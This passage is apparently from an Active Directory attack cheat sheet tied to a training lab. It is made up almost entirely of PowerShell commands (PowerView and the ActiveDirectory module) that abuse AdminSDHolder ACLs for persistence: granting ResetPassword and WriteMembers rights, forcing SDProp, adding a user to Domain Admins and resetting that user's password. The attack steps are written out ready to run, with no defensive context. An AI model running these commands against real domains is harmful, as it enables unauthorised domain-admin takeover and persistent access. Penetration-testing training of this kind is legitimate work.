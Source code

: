 #### Other interesting permissions (ResetPassword, WriteMembers) for a user to the AdminSDHolder:
```powershell
Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -PrincipalSamAccountName student1 -Rights ResetPassword -Verbose

Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -PrincipalSamAccountName student1 -Rights WriteMembers -Verbose
```

#### Run SDProp manually using Invoke-SDPropagator.ps1 from Tools directory:
```powershell
Invoke-SDPropagator -timeoutMinutes 1 -showProgress -Verbose
```

#### For pre-Server 2008 machines:
```powershell
Invoke-SDPropagator -taskname FixUpInheritance -timeoutMinutes 1 -showProgress -Verbose
```

#### Check the Domain Admins permission - PowerView as normal user:
```powershell
Get-ObjectAcl -SamAccountName "Domain Admins" -ResolveGUIDs | ?{$_.IdentityReference -match 'student1'}
```

#### Using ActiveDirectory Module:
```powershell
(Get-Acl -Path 'AD:\CN=Domain Admins,CN=Users,DC=dollarcorp,DC=moneycorp,DC=local').Access | ?{$_.IdentityReference -match 'student1'}
```

#### Abusing FullControl using PowerView_dev:
```powershell
Add-DomainGroupMember -Identity 'Domain Admins' -Members testda -Verbose
```

#### Using Active Directory Module:
```powershell
Add-ADGroupMember -Identity 'Domain Admins' -Members testda
```

#### Abusing ResetPassword using PowerView_dev:
```powershell
Set-DomainUserPassword -Identity testda -AccountPassword (ConvertTo-SecureString "Password@123" -AsPlainText -Force) -Verbose
```

#### Using Active Directory Module:
```powershell
Set-ADAccountPassword -Identity testda -NewPassword (ConvertTo-SecureString "Password@123" -AsPlainText -Force) -Verbose
```

